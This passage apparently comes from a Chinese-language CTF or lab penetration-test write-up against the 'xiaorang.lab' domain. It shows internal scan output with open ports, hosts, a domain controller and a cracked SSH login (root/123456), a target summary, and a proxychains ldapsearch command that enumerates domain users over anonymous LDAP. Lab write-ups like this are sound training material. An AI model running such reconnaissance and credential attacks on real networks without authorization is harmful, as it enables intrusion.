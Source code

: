 ```plain
172.22.61.50:139 open
172.22.61.34:135 open
172.22.61.50:135 open
172.22.61.17:135 open
172.22.61.50:80 open
172.22.61.17:88 open
172.22.61.41:3306 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo:
[*]172.22.61.17
   [->]DC
   [->]172.22.61.17
   [->]2001:0:348b:fb58:383c:21f6:d89c:1748
[*] 172.22.61.17  (Windows Server 2016 Datacenter 14393)
[*] NetInfo:
[*]172.22.61.34
   [->]WIN2012
   [->]172.22.61.34
[*] NetBios: 172.22.61.17    [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.50    Web.xiaorang.lab                    Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.34    WIN2012.xiaorang.lab                Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.61.50       code:200 len:24977  title:Zosimos
[+] SSH:172.22.61.41:22:root 123456
```

总结一下目标

```plain
172.22.61.17 DC 
172.22.61.34 WIN2012.xiaorang.lab 
172.22.61.50 Web.xiaorang.lab
172.22.61.41 拿下
```

DC 的 ldap 匿名访问

```plain
proxychains ldapsearch -H ldap://172.22.61.17 -b "DC=xiaorang,DC=lab" -x|grep ',CN=Users,DC=xiaorang,DC=lab'
```
